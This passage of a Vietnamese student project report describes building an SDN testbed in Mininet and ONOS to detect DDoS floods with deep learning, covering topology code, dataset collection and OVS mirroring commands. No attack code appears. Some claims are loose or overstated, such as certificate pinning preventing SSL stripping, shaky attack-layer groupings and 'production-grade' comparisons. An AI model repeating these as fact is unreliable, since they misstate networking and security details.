CHUYỂN ĐỔI TỪ L2 → L3:

TRƯỚC (L2):
├── ONOS GUI: Click để add flow rules
├── All hosts: 10.0.0.0/24 (same subnet)
├── MAC learning: tự động nhưng giới hạn
└── No routing: Flat network

SAU (L3):
├── Python API: Tự động cấu hình qua code
├── Multi-subnet:
│   ├── 10.0.0.0/24: DMZ (Web + Proxy + DNS)
│   ├── 10.0.1.0/24: Attackers (isolated)
│   ├── 10.0.2.0/24: Legitimate users
│   └── 10.0.0.201: Honeypot (decoy)
├── L3 Routing: IP-based forwarding
├── OVS Flow Rules: Programmatic via ONOS REST API
└── Scalable: Thêm subnet dễ dàng
"""
```

**So sánh chi tiết L2 vs L3:**

| Tiêu chí | Mạng L2 (Ban đầu) | Mạng L3 (Hiện tại) | Lý do chuyển đổi |
|----------|-------------------|-------------------|------------------|
| **Forwarding** | MAC-based switching | IP-based routing | Routing scales better |
| **Config** | GUI click thủ công | Python API tự động | IaC, reproducible |
| **Subnets** | Single flat subnet | Multiple isolated subnets | Security zones |
| **Broadcast** | Flooding | Controlled | Giảm broadcast storm |
| **Table Size** | 65K MAC entries | Millions of IP routes | Scale lên cloud size |
| **Isolation** | VLAN (manual) | Automatic subnet isolation | DMZ/Internal/Attackers |
| **Programmable** | Limited | Full REST API | Tích hợp với IDS engine |

**Lợi ích thực tế của mô hình L3:**

```
┌────────────────────────────────────────────────────────────────┐
│           🎯 LỢI ÍCH CỦA MÔ HÌNH L3 TRONG DỰ ÁN               │
├────────────────────────────────────────────────────────────────┤
│                                                                │
│ 1. PHÂN TÁCH ATTACKER/VICTIM:                                  │
│    • Attackers: 10.0.1.0/24 (isolated subnet)                  │
│    • Victims: 10.0.0.0/24 (DMZ) + 10.0.2.0/24 (Internal)       │
│    • Routing qua Core Switch (s6) có thể filter/monitor        │
│                                                                │
│ 2. HONEYPOT ISOLATION:                                         │
│    • Honeypot 10.0.0.201 trong DMZ nhưng isolated              │
│    • Có thể route traffic đáng ngờ về honeypot                 │
│    • Không ảnh hưởng legitimate services                       │
│                                                                │
│ 3. IDS MIRRORING:                                              │
│    • OVS Mirror port tại Core Switch (s6)                     │
│    • Capture TẤT CẢ inter-subnet traffic                      │
│    • Out-of-band: không affect production                      │
│                                                                │
│ 4. SDN PROGRAMMABILITY:                                        │
│    • ONOS REST API để inject flow rules                        │
│    • DROP traffic từ 10.0.1.x → 10.0.0.10                     │
│    • Rate limit via meter tables                               │
│                                                                │
│ 5. REAL-WORLD REALISM:                                         │
│    • Giống Google/AWS VPC architecture                         │
│    • Có thể demo cho doanh nghiệp thực tế                     │
│    • Industry standard (L3 > L2 trong production)               │
│                                                                │
└────────────────────────────────────────────────────────────────┘
```

**Code chuyển đổi:**

```python
# TRƯỚC: Cấu hình L2 thủ công qua GUI
# (Phải click từng flow rule, dễ sai, không tái tạo được)

# SAU: Cấu hình L3 tự động qua Python + ONOS API
# mininet/topology.py

class L3SDNTopology:
    """Production-grade L3 topology như Google Cloud VPC"""
    
    def build(self):
        # Core Switch (L3 Router + Switch hybrid)
        s6 = self.addSwitch('s6', dpid='0000000000000006')
        
        # Subnet 1: DMZ (10.0.0.0/24) - Public-facing services
        web1 = self.addHost('web1', ip='10.0.0.10/24', defaultRoute='via 10.0.0.1')
        proxy = self.addHost('proxy', ip='10.0.0.20/24', defaultRoute='via 10.0.0.1')
        dns = self.addHost('dns', ip='10.0.0.30/24', defaultRoute='via 10.0.0.1')
        
        # Subnet 2: Attackers (10.0.1.0/24) - Isolated
        for i in range(1, 21):
            attacker = self.addHost(f'a{i}', ip=f'10.0.1.{i}/24', 
                                   defaultRoute='via 10.0.1.1')
            self.addLink(attacker, s6)
        
        # Subnet 3: Legitimate users (10.0.2.0/24) - Internal network
        for i in range(60, 100):
            host = self.addHost(f'h{i}', ip=f'10.0.2.{i}/24',
                               defaultRoute='via 10.0.2.1')
            self.addLink(host, s6)
        
        # Honeypot - Decoy trong DMZ
        honeypot = self.addHost('honeypot', ip='10.0.0.201/24',
                               defaultRoute='via 10.0.0.1')
        
        # Connect DMZ hosts to core
        for host in [web1, proxy, dns, honeypot]:
            self.addLink(host, s6)
        
        # ONOS Controller manages s6
        controller = self.addController('c0', controller=RemoteController,
                                       ip='10.0.0.50', port=6653)
        
        # OVS Mirror for IDS (capture all inter-subnet traffic)
        # Configured via: ovs-vsctl -- set Bridge s6 mirrors=@m ...
```

### 6.5.4 Quá Trình Học Networking và Giải Quyết Vấn Đề Kỹ Thuật

**Bối cảnh:**
Sinh viên thực hiện đồ án có nền tảng chính về **Trí tuệ Nhân tạo và Thị giác Máy tính (AI & Computer Vision)**. Đề tài **"Hệ thống phát hiện tấn công DDoS bằng Deep Learning trên mạng SDN"** yêu cầu kết hợp kiến thức AI với networking, lĩnh vực chưa có nhiều kinh nghiệm thực hành.

**Giai đoạn 1: Làm Quen Với Công Nghệ SDN (Tuần 1-2)**

Các khái niệm cần nắm vững trong giai đoạn này:
- **Flow rules:** Các quy tắc định tuyến trong switch SDN (khác với machine learning models)
- **TCAM (Ternary Content-Addressable Memory):** Bộ nhớ phần cứng trong switch dùng để lưu flow rules
- **L2 vs L3:** L2 (Data Link - MAC-based) và L3 (Network - IP-based) networking

**Vấn đề gặp phải:**
Mạng Mininet ban đầu không liên thông - các host không ping được nhau do cấu hình flow rules thiếu sót.

📷 *Minh chứng:* `MangTuCauHInhbandau_khongLienThong.png` - Mạng ban đầu chưa liên thông do thiếu default routes

**Giai đoạn 2: Học Các Khái Niệm Networking Cơ Bản (Tuần 3-6)**

Tài liệu tham khảo và phương pháp học:
1. **Sách giáo trình:** "Computer Networking: A Top-Down Approach" (Kurose & Ross, chương 1-4)
2. **Video hướng dẫn:** "Networking Fundamentals" series (NetworkChuck)
3. **Thực hành:** Labs trên Cisco Packet Tracer về VLAN, subnetting, routing
4. **Ánh xạ sang AI:**
   - IP Address ≈ Feature Vector (biểu diễn không gian)
   - Routing Table ≈ Attention Weights (probability distribution)
   - Flow Rules ≈ Model Parameters (cần optimize)

📷 *Minh chứng:* 
- `caiDatThuNghiemRyuSauDoluaChonOnosChoDoAn.png` - Thử nghiệm Ryu controller trước khi chọn ONOS
- `kiemTraCacTruongDataCoTheThuDuoc.png` - Nghiên cứu các trường dữ liệu có thể thu thập

**Giai đoạn 3: Triển Khai Web Server và Chuyển Đổi L2/L3 (Tuần 7-12)**

**Vấn đề 1: Cấu hình Web Server**
Quá trình thử nghiệm các stack khác nhau:
- **Django standalone:** Gặp lỗi static files serving
- **Flask:** Hạn chế về multi-threading performance
- **Final stack:** Django + Gunicorn + Nginx (dựa trên production best practices)

📷 *Minh chứng:* 
- `biLoiTrongQuaTrinhCauHinhWeb.png` - Lỗi cấu hình web
- `loiMoiTruongNoSandboxTrngquaTrinhXayDungWeb.png` - Lỗi môi trường no-sandbox
- `loiKhiCoMoWebTuDongtuHost60.png` - Lỗi khi mở web tự động từ host Mininet
- `dichVuWe&databaseBinhThuong.png` - Cuối cùng web và database hoạt động bình thường
- `phuongThucDangNhapcuaweb.png` - Phương thức đăng nhập web đã cấu hình thành công

**Vấn đề 2: Chuyển Đổi từ L2 Switching sang L3 Routing**

**Phân tích:**
ONOS mặc định chỉ hỗ trợ L2 switching (MAC-based), nhưng các hệ thống production (Google Cloud, AWS) đều sử dụng L3 routing (IP-based). Chuyển đổi sang L3 là cần thiết để:
- Hỗ trợ multi-subnet (DMZ, Botnet, Client zones)
- Tận dụng IP routing thay vì MAC flooding
- Phân đoạn mạng rõ ràng theo chức năng

**Các bước thực hiện:
- Học về IP routing, static routes, default gateways
- Đọc RFC 1918 về private IP ranges
- Tự viết lại toàn bộ `system.py` để hỗ trợ multi-subnet
- Debug từng dòng code để đảm bảo inter-subnet routing hoạt động

📷 *Minh chứng:*
- `heThongMangL3_lienThong.png` - Mạng L3 đã liên thông thành công
- `heThongMangSupDoKhiBiTanCong.png` - Mạng sụp đỗ khi bị tấn công (trước khi có AI)
- `mangKhiChuaBiTanCong_normal.png` - Mạng bình thường trước khi bị tấn công

**Vấn đề 3: Tối Ưu AI Cho Chạy Trên CPU**

**Vấn đề:**
Kiến trúc Conformer (AI v3) yêu cầu GPU và tài nguyên lớn, không phù hợp với môi trường lab. Cần tối ưu để chạy trên CPU.

**Các biện pháp tối ưu:
- Tinh chỉnh kiến trúc CNN-GRU nhẹ hơn
- Chuyển sang CPU với tối ưu batch size
- Sử dụng quantization (int8) cho model

📷 *Minh chứng:* `chuyenViecHienThiHeThongChoGpuDeGiaiQuyetVanDePhanCung.png` - Chuyển đổi hiển thị hệ thống sang GPU để giải quyết vấn đề phần cứng

**Giai đoạn 4: Thu Thập Dữ Liệu và Training AI (Tuần 13-20)**

**Vấn đề chính:**
Thu thập dataset chất lượng cao tốn nhiều thời gian và công sức hơn dự kiến. Mỗi phiên bản dataset (V2-V7) cần khoảng 36 giờ thu thập liên tục với giám sát thủ công do các hạn chế của Mininet environment.

**Thông tin thu thập dataset:**
```
Thống kê thu thập dataset:
├── Các phiên bản: V2 → V3 → V4 → V5 → V6 → V7
├── Thời gian: ~36 giờ/dataset (không thể tự động hóa hoàn toàn)
├── Hạn chế: Mininet> prompt độc lập, cần giám sát manual
└── Tổng thời gian: ~220 giờ cho tất cả các phiên bản
```

**Quy trình thu thập một dataset (ví dụ: V5):**

```
Ngày 1-2: Chuẩn bị và Test
├── 4 giờ: Setup môi trường Mininet sạch
├── 2 giờ: Test các attack scripts hoạt động đúng
├── 2 giờ: Cấu hình timeout cho batPack_v2.py
└── 2 giờ: Test thử 1 vòng để đảm bảo flow đúng

Ngày 3: Thu thập Normal (8 giờ liên tục)
├── Khởi động: python auto_dataset_generator.py --phase normal
├── Mở Mininet terminal: sudo python system.py
├── Chạy batPack_v2.py để capture flows
├── Theo dõi: Kiểm tra số lượng flows mỗi 30 phút
├── Vấn đề phát sinh: Ctrl+C nếu lỗi, sửa lại, chạy lại từ đầu
└── Mục tiêu: 200,000 Normal samples (10 flows = 1 sequence)

Ngày 4-5: Thu thập 4 loại Attack (16 giờ liên tục)
├── Phase UDP Flood: 2 giờ (cần giám sát bandwidth)
├── Phase SYN Flood: 2 giờ (watchdog kiểm tra kết nối)
├── Phase HTTP Flood: 2 giờ (theo dõi web server response)
├── Phase Slowloris: 8 giờ (LÂU NHẤT - connections kéo dài)
└── Mỗi phase: phải switch marker files thủ công

Ngày 6: Kiểm định và Làm lại nếu lỗi
├── 4 giờ: Chạy check_data.py để kiểm tra chất lượng
├── Nếu Duration bất thường → Bỏ, làm lại từ đầu
├── Nếu class imbalance quá cao → Bỏ, thu thập thêm
└── Nếu ổn: Merge vào master_dataset_v{X}.csv
```

**Hạn chế của quá trình tự động hóa:**

| Hạn chế | Nguyên nhân | Giải pháp áp dụng |
|---------|-------------|-------------------|
| **Mininet> prompt** | Không nhận stdin tự động | Giám sát và điều khiển thủ công |
| **Attack timing** | Mỗi attack cần thời gian khác nhau | Điều chỉnh dựa trên số lượng flows |
| **Marker files** | Cần đồng bộ giữa 2 terminals | Tạo marker files thủ công |
| **Crash/Error** | OOM, network error bất ngờ | Giám sát liên tục, restart khi cần |
| **Quality check** | Chỉ kiểm định được sau khi thu xong | Kiểm tra mỗi 30 phút, abort sớm nếu phát hiện lỗi |

**Các lần thu thập không đạt yêu cầu:**

```python
"""
[V3 - Dataset thất bại] - Mất 36 giờ, kết quả: Bỏ
├── Thu thập xong 500k samples
├── Kiểm định: Normal Duration = 0.02s (quá ngắn!)
├── Nguyên nhân: IDLE_TIMEOUT = 1.0s trong batPack
└── Kết quả: Bỏ toàn bộ, làm lại V4

[V5 - Dataset thất bại] - Mất 40 giờ, kết quả: Bỏ  
├── Thu thập xong 600k samples
├── Kiểm định: Slowloris L7 = 0.02 (chỉ 2% nhận diện HTTP)
├── Nguyên nhân: Timeout không đủ dài cho handshake
└── Kết quả: Bỏ, tăng timeout, làm lại V6

[V6 - Gần thất bại] - Mất 38 giờ, kết quả: Chấp nhận được
├── Kiểm định: Port Entropy giống nhau ở tất cả lớp
├── Quyết định: Không làm lại, giảm weight Port Entropy trong AI
└── Đây là lý do có feature weighting trong V4 AI
"""
```

**⏰ Tổng thời gian đầu tư cho Data Collection:**
```
V2: 36 giờ (bỏ - lỗi cấu hình)
V3: 36 giờ (bỏ - duration quá ngắn)
V4: 38 giờ (bỏ - imbalance quá cao)
V5: 40 giờ (bỏ - L7 detection kém)
V6: 38 giờ (chấp nhận được, nhưng có vấn đề)
V7: 36 giờ (final - 95% chất lượng)
-----------------------------------
TỔNG: ~220 giờ = 9 NGÀY LIÊN TỤC chỉ cho data collection
(Chưa tính thời gian training, debug, tuning)
```

**💪 Sự kiên nhẫn và tỉ mỉ:**

> Không thể có "nút bấm tự động" vì Mininet là môi trường giả lập có giới hạn. Tôi phải:
> - Ngồi 8-10 giờ mỗi ngày trước màn hình
> - Theo dõi 2 terminals song song (Mininet> và auto_dataset_generator)
> - Switch phases đúng thời điểm (nếu sai là hỏng cả dataset)
> - Không thể để máy chạy overnight vì sợ crash giữa chừng
> - Mỗi lần fail là 36 giờ công sức đổ sông đổ bể

Là sinh viên AI, tôi tưởng phần khó nhất là training model. Hóa ra **phần khó nhất là có dataset chất lượng để train**.

---

**Các vấn đề AI khác:**
- **Vấn đề 1:** Dataset ban đầu 46GB → Không thể train
- **Vấn đề 2:** Normal traffic quá ngắn (3-5s) → AI không học được pattern
- **Vấn đề 3:** AI v3 bị "ảo giác" (hallucination) - nhìn đâu cũng thấy tấn công

📷 *Minh chứng:*
- `ketQuaV3-AoGiac.png` - AI v3 bị ảo giác, nhận diện sai
- `maTranNhamLancuaAiv3.png` - Ma trận nhầm lẫn của AI v3
- `testAIv3.png` - Test AI v3 gặp nhiều lỗi

**Giải pháp AI (V4):**
- Thêm **13 differential features** để AI "thấy sự thay đổi"
- Thay đổi kiến trúc sang **Contrastive Learning** (inspired by Computer Vision - SimCLR)
- Thêm **2-Shield mechanism** (inspired by ensemble methods)
- Dùng **Attention mechanism** (inspired by Transformer/Vision Transformer)

📷 *Minh chứng:*
- `thuThapDatasetV6.png` - Thu thập dataset v6
- `thuThapDatasetV7.png` - Thu thập dataset v7 (final)
- `kiemDinhDatasetV5_tuThu_truocKhitrain.png` - Kiểm định dataset V5 trước khi train
- `kiemDinhDatasetv4.png`, `kiemDinhdatasetv4(2).png` - Kiểm định dataset V4
- `ketQuaTrainlop1_aiv4_datasetv7.png` - Kết quả train lớp 1 (Autoencoder) AI v4
- `ketQuaTrainKhien2_aiv4_datasetv7.png` - Kết quả train khiên 2 (Classifier) AI v4

**🎯 Giai đoạn 5: Demo và Dashboard (Tuần 21-24)**

Tích hợp tất cả vào hệ thống hoàn chỉnh với dashboard real-time:

📷 *Minh chứng:*
- `dashBroadTanCongHttpHash.png` - Dashboard khi tấn công HTTP Hash
- `dashBroadTanCongHttpJson.png` - Dashboard khi tấn công HTTP JSON
- `dashBroadTanCongSyn.png` - Dashboard khi tấn công SYN Flood

---

### 6.5.5 Thư Viện Hình Ảnh Minh Chứng Quá Trình Làm

Tất cả hình ảnh trong thư mục `anhQuaTrinhLam/` là bằng chứng thực tế cho quá trình phát triển:

| File | Mô tả | Giai đoạn |
|------|-------|-----------|
| `MangTuCauHInhbandau_khongLienThong.png` | Mạng lúc đầu không liên thông | Giai đoạn 1 |
| `heThongMangTuCauHinh_mangL2.png` | Hệ thống mạng tự cấu hình L2 (trước khi chuyển L3) | Giai đoạn 1 |
| `bangAnhXa20DacTrungBanDau.png` | Bảng ánh xạ 20 đặc trưng ban đầu (Dataset V1 từ Internet) | Giai đoạn 1 |
| `caiDatThuNghiemRyuSauDoluaChonOnosChoDoAn.png` | Thử nghiệm Ryu trước khi chọn ONOS | Giai đoạn 2 |
| `moHInhNhanDienNguoiDungBTh.png` | Mô hình nhận diện người dùng bình thường | Giai đoạn 2 |
| `kiemTraCacTruongDataCoTheThuDuoc.png` | Nghiên cứu các trường dữ liệu thu thập được | Giai đoạn 2 |
| `biLoiTrongQuaTrinhCauHinhWeb.png` | Lỗi trong quá trình cấu hình web | Giai đoạn 3 |
| `loiMoiTruongNoSandboxTrngquaTrinhXayDungWeb.png` | Lỗi môi trường no-sandbox | Giai đoạn 3 |
| `loiKhiCoMoWebTuDongtuHost60.png` | Lỗi mở web tự động từ host Mininet | Giai đoạn 3 |
| `dichVuWe&databaseBinhThuong.png` | Web và database hoạt động bình thường | Giai đoạn 3 |
| `phuongThucDangNhapcuaweb.png` | Phương thức đăng nhập web thành công | Giai đoạn 3 |
| `heThongMangL3_lienThong.png` | Mạng L3 đã liên thông | Giai đoạn 3 |
| `heThongMangSupDoKhiBiTanCong.png` | Mạng sụp đỗ khi bị tấn công (trước AI) | Giai đoạn 3 |
| `mangKhiChuaBiTanCong_normal.png` | Mạng bình thường trước tấn công | Giai đoạn 3 |
| `chuyenViecHienThiHeThongChoGpuDeGiaiQuyetVanDePhanCung.png` | Chuyển sang GPU xử lý | Giai đoạn 3 |
| `ketQuaV3-AoGiac.png` | AI v3 bị ảo giác | Giai đoạn 4 |
| `maTranNhamLancuaAiv3.png` | Ma trận nhầm lẫn AI v3 | Giai đoạn 4 |
| `testAIv3.png` | Test AI v3 | Giai đoạn 4 |
| `thuThapDatasetV6.png` | Thu thập dataset V6 | Giai đoạn 4 |
| `thuThapDatasetV7.png` | Thu thập dataset V7 | Giai đoạn 4 |
| `tienTrinhHutDataChoAI.png` | Tiến trình hút data cho AI (NFStream flow capture) | Giai đoạn 4 |
| `kiemDinhDatasetV5_tuThu_truocKhitrain.png` | Kiểm định dataset V5 | Giai đoạn 4 |
| `kiemDinhDatasetv4.png` | Kiểm định dataset V4 | Giai đoạn 4 |
| `kiemDinhdatasetv4(2).png` | Kiểm định dataset V4 (bổ sung) | Giai đoạn 4 |
| `dataset_v0_report.png` | Báo cáo phân tích Dataset V0 (phiên bản đầu) | Giai đoạn 4 |
| `dataset_v4_report.png` | Báo cáo phân tích Dataset V4 (26 đặc trưng) | Giai đoạn 4 |
| `dataset_v7_evaluation.png` | Đánh giá Dataset V7 (phiên bản final) | Giai đoạn 4 |
| `ketQuaTrainlop1_aiv4_datasetv7.png` | Train khiên 1 AI v4 | Giai đoạn 4 |
| `ketQuaTrainKhien2_aiv4_datasetv7.png` | Train khiên 2 AI v4 | Giai đoạn 4 |
| `dashBroadTanCongHttpHash.png` | Dashboard HTTP Hash attack | Giai đoạn 5 |
| `dashBroadTanCongHttpJson.png` | Dashboard HTTP JSON attack | Giai đoạn 5 |
| `dashBroadTanCongSyn.png` | Dashboard SYN attack | Giai đoạn 5 |
| `nhanDienVaXuLyUDPFlood.png` | Demo nhận diện và xử lý UDP Flood | Demo |
| `nhanDienVaXuLySYNFlood.png` | Demo nhận diện và xử lý SYN Flood | Demo |
| `nhanDienVaXuLyHttpsFlood.png` | Demo nhận diện và xử lý HTTPS Flood | Demo |
| `nhanDienVaXuLySlowloris.png` | Demo nhận diện và xử lý Slowloris | Demo |
| `ketQuaKiemTraLenhDrop.png` | Kết quả kiểm tra lệnh DROP từ ONOS | Demo |
| `kiemTraSucKhoeWebServerSauTanCong.png` | Kiểm tra web server sau tấn công | Demo |

---

### 6.5.6 Bài Học Rút Ra

**Là sinh viên AI học Networking, tôi nhận ra:**

1. **Domain Knowledge quan trọng hơn Algorithm:** Không phải cứ dùng SOTA model là giải quyết được vấn đề. Phải hiểu rõ data, hiểu rõ hệ thống.

2. **Computer Vision → Networking Transfer:**
   - Feature Engineering ≈ Image Preprocessing
   - Flow Sequence ≈ Video Frame Sequence
   - Attention Mechanism ≈ Spatial Attention trong CNN

3. **Tư duy Systems Thinking:** AI không chạy trong chân không. Cần tối ưu RAM, CPU, latency, throughput.

4. **Tính kiên nhẫn:** Từ "không biết gì về mạng" đến "xây dựng được hệ thống production" mất 6 tháng, không phải 6 tuần.

```python
"""
QUÁ TRÌNH TỰ TÌM TÒI HỌC HỎI (Chi tiết đầy đủ):

Tuần 1-2: Tìm hiểu ONOS cơ bản
├─ Đọc documentation ONOS wiki
├─ Chạy sample apps (reactive forwarding)
├─ Thử GUI: click add flow rules
└─ Vấn đề: Không scalable!

Tuần 3-4: Nghiên cứu Cloud Networking
├─ Đọc Google Cloud VPC documentation
├─ Xem AWS re:Invent talks về networking
├─ Học về L3 routing vs L2 switching
└─ Insight: Production dùng L3, không phải L2!

Tuần 5-6: Chuyển đổi sang L3
├─ Viết lại topology với multi-subnet
├─ Tích hợp ONOS REST API
├─ Thử nghiệm inter-subnet routing
└─ Success: Hoạt động giống Google Cloud!

Tuần 7-8: Hoàn thiện và tích hợp IDS
├─ OVS Port Mirroring cho monitoring
├─ NFStream capture từ mirror port
├─ Tích hợp AI detection với SDN mitigation
└─ Final: Production-ready system!

Kết quả:
✅ Hiểu sâu về SDN và Cloud Networking
✅ Có thể so sánh với Google/AWS architecture
✅ Hệ thống production-grade, không chỉ là lab toy
"""
```

---

## 7. 🌐 Cấu Hình Hệ Thống Mạng L3 Chuyên Nghiệp

### 7.1 Topology Mạng SDN 3-Tier

Hệ thống được thiết kế theo mô hình **Enterprise Network 3-Tier** với đầy đủ các tầng: Core, Distribution, và Access, kết hợp với kiến trúc **SDN (Software-Defined Networking)** sử dụng ONOS Controller.

```
┌─────────────────────────────────────────────────────────────────────────┐
│                         🌐 INTERNET / EXTERNAL                           │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                     🛡️ CORE LAYER (Gateway)                             │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │  Switch s6 (Open vSwitch) - CORE SWITCH                         │   │
│  │  • Kết nối tất cả các subnet                                   │   │
│  │  • Chạy OpenFlow 1.3, kết nối ONOS Controller                  │   │
│  │  • Port Mirroring: s6-eth1 → IDS Probe (nfstream)              │   │
│  │  • Flow Rules: DROP/RATE_LIMIT từ ONOS API                     │   │
│  └─────────────────────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────────────────────┘
                    │                    │                    │
        ┌───────────┘        ┌───────────┘        ┌───────────┘
        ▼                    ▼                    ▼
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│ 🟢 DMZ Zone  │    │ 🔵 Internal  │    │ 🔴 Honeypot  │
│              │    │              │    │              │
│ web1:80/443 │    │ legitimate   │    │ honeypot     │
│ (nginx+     │    │ hosts h60-99 │    │ (10.0.0.201) │
│  Django)    │    │              │    │              │
│ proxy:8080  │    │              │    │              │
└──────────────┘    └──────────────┘    └──────────────┘
        │                    │                    │
        ▼                    ▼                    ▼
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│ 🟠 Attackers │    │ 🟡 Legit     │    │ ⚪ Monitoring│
│              │    │   Users      │    │              │
│ a1-a20       │    │ h60-h80      │    │ probe (IDS)  │
│ (10.0.1.0/24)│    │ (10.0.2.0/24)│    │ (10.0.0.50)  │
└──────────────┘    └──────────────┘    └──────────────┘
```

### 7.2 Chi Tiết Cấu Hình Mạng

#### 7.2.1 IP Addressing & Subnetting

```python
# Topology Configuration (mininet/topology.py)
NETWORK_CONFIG = {
    "core_switch": {
        "name": "s6",
        "dpid": "0000000000000006",
        "type": "Open vSwitch",
        "ports": {
            "s6-eth1": "IDS Mirror Port (nfstream capture)",
            "s6-eth2": "DMZ Zone",
            "s6-eth3": "Internal Zone",
            "s6-eth4": "Honeypot Zone",
            "s6-eth5": "Controller Connection"
        }
    },
    "subnets": {
        "dmz": {
            "cidr": "10.0.0.0/24",
            "hosts": [
                ("web1", "10.0.0.10/24"),      # Nginx + HTTPS
                ("proxy", "10.0.0.20/24"),      # Squid Proxy
                ("dns", "10.0.0.30/24"),        # BIND DNS
            ]
        },
        "attackers": {
            "cidr": "10.0.1.0/24",
            "hosts": [(f"a{i}", f"10.0.1.{i}/24") for i in range(1, 21)]
        },
        "legitimate": {
            "cidr": "10.0.2.0/24",
            "hosts": [(f"h{i}", f"10.0.2.{i}/24") for i in range(60, 100)]
        },
        "honeypot": {
            "cidr": "10.0.0.0/24",
            "hosts": [("honeypot", "10.0.0.201/24")]  # Cowrie SSH Honeypot
        },
        "ids_probe": {
            "cidr": "10.0.0.0/24",
            "hosts": [("probe", "10.0.0.50/24")]  # NFStream collector
        }
    }
}
```

#### 7.2.2 HTTPS Web Server (web1)

```python
# mininet/docker_config.py
WEB_SERVER_CONFIG = {
    "container": "nginx-ssl:latest",
    "services": {
        "nginx": {
            "ports": ["80", "443"],
            "ssl": {
                "cert": "/etc/nginx/ssl/server.crt",
                "key": "/etc/nginx/ssl/server.key",
                "protocols": "TLSv1.2 TLSv1.3",
                "ciphers": "ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256"
            },
            "backend": "django-app:8000",  # WSGI backend
            "rate_limit": "1000r/m",  # Rate limiting nginx
            "ddos_protection": {
                "limit_req_zone": "$binary_remote_addr zone=one:10m rate=10r/s",
                "limit_conn_zone": "$binary_remote_addr zone=addr:10m",
            }
        }
    },
    "content": {
        "static": "/var/www/static",
        "media": "/var/www/media",
        "application": "Django REST API"
    }
}
```

**Tại sao chọn Nginx + HTTPS?**
- **TLS 1.3**: Giảm RTT handshake từ 2-RTT xuống 1-RTT, giảm latency
- **Application-Layer DDoS**: HTTP Flood tấn công vào Layer 7 (HTTPS) → Cần phân tích payload
- **Certificate Pinning**: Ngăn chặn SSL stripping attacks
- **OCSP Stapling**: Tăng tốc độ xác thực certificate

#### 7.2.3 Proxy Server (Squid)

```python
PROXY_CONFIG = {
    "container": "squid:latest",
    "listen_port": 8080,
    "cache": {
        "type": "disk",
        "size": "1GB",
        "max_object_size": "100MB",
        "policy": "LRU"
    },
    "acl": {
        "allowed_ports": [80, 443, 8080],
        "blocked_domains": ["*.malware.com", "*.phishing.*"],
        "throttling": {
            "enabled": True,
            "max_bandwidth": "10Mbps per IP"
        }
    },
    "logging": {
        "access_log": "/var/log/squid/access.log",
        "format": "custom",  # For nfstream analysis
        "log_headers": ["User-Agent", "X-Forwarded-For"]
    }
}
```

**Tại sao cần Proxy trong topology?**
- **Caching**: Giảm tải cho web server, tạo traffic pattern "normal"
- **Aggregation**: Nhiều client → 1 proxy → Web server, giảm số kết nối trực tiếp
- **Header Analysis**: X-Forwarded-For giúp trace real client IP
- **Content Filtering**: Chặn malicious domains ngay tại proxy

#### 7.2.4 Honeypot Integration (Decoy System)

**Mục đích:** Thu hút attacker, phân tích hành vi tấn công, bảo vệ legitimate services.

```python
# Topology configuration
HONEYPOT_CONFIG = {
    "ip": "10.0.0.201/24",  # Trong DMZ nhưng isolated
    "type": "Cowrie SSH Honeypot",  # Giả lập SSH server
    "services": {
        "ssh": {
            "port": 2222,  # Fake SSH port
            "banner": "SSH-2.0-OpenSSH_7.4",  # Giả mạo banner
            "honeypot_type": "medium_interaction"
        },
        "http": {
            "port": 8080,  # Fake HTTP admin panel
            "content": "Fake Admin Panel v1.0"
        }
    },
    "monitoring": {
        "capture_commands": True,  # Ghi lại commands attacker chạy
        "capture_files": True,     # Ghi lại files upload
        "mirror_to_ids": True      # Chuyển traffic đến IDS phân tích
    }
}
```

**Vai trò trong hệ thống:**
- **Decoy**: Lure attacker away from real services (web1:10.0.0.10)
- **Intelligence**: Thu thập IoC (Indicators of Compromise) mới
- **Zero-Day Detection**: Phát hiện attack patterns chưa từng thấy
- **Delay Tactics**: Giữ chân attacker để IDS có thời gian phân tích và phản ứng

**Integration với IDS:**
- Traffic đến honeypot được mirror sang IDS probe (10.0.0.50)
- Các flows đến honeypot được đánh dấu đặc biệt trong dataset
- Dùng để training AI với "confirmed attack" data

---

### 7.3 Open vSwitch Configuration (Port Mirroring)

```bash
# ovs_commands.sh - Cấu hình switch cho IDS monitoring

# 1. Tạo mirror port cho toàn bộ traffic
ovs-vsctl -- set Bridge s6 mirrors=@m \
  -- --id=@m create Mirror name=mymirror \
  select-all=true \
  output-port=@p \
  -- --id=@p get Port s6-eth1

# 2. Verify mirror configuration
ovs-vsctl list Mirror mymirror

# 3. Cấu hình flow rules cho SDN (sẽ được ONOS inject)
ovs-ofctl add-flow s6 "priority=1000,ip,nw_dst=10.0.0.10,tp_dst=80,actions=normal"
ovs-ofctl add-flow s6 "priority=1000,ip,nw_dst=10.0.0.10,tp_dst=443,actions=normal"

# 4. QoS cho rate limiting (fallback nếu ONOS không khả dụng)
ovs-vsctl -- set Port s6-eth2 qos=@newqos \
  -- --id=@newqos create QoS type=linux-htb \
  other-config:max-rate=1000000000  # 1Gbps limit
```

**Giải thích Port Mirroring:**
- **Không intrusive**: Traffic được copy (mirror) thay vì redirect, không ảnh hưởng đến production
- **Full duplex**: Capture cả inbound và outbound traffic
- **Out-of-band**: nfstream chạy trên interface riêng, không compete với production traffic

### 7.5 Phân Tích 4 Loại Tấn Công DDoS & Lý Do Lựa Chọn

#### **Tại sao chọn đúng 4 loại này?**

```
┌─────────────────────────────────────────────────────────────────────────┐
│       🎯 TAXONOMY CỦA DDoS ATTACKS & REPRESENTATIVE SELECTION          │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  DDoS Attacks có 3 chiều chính:                                         │
│  ┌─────────────────┬─────────────────┬─────────────────┐                 │
│  │  Volumetric     │  Protocol       │  Application    │                 │
│  │  (Layer 3)      │  (Layer 4)      │  (Layer 7)      │                 │
│  ├─────────────────┼─────────────────┼─────────────────┤                 │
│  │  UDP Flood      │  SYN Flood      │  HTTP Flood     │                 │
│  │  ICMP Flood     │  Ping of Death  │  Slowloris      │                 │
│  │  DNS Amplify    │  Smurf          │  RUDY           │                 │
│  │  NTP Amplify    │  Fraggle        │  LOIC           │                 │
│  └─────────────────┴─────────────────┴─────────────────┘                 │
│                                                                         │
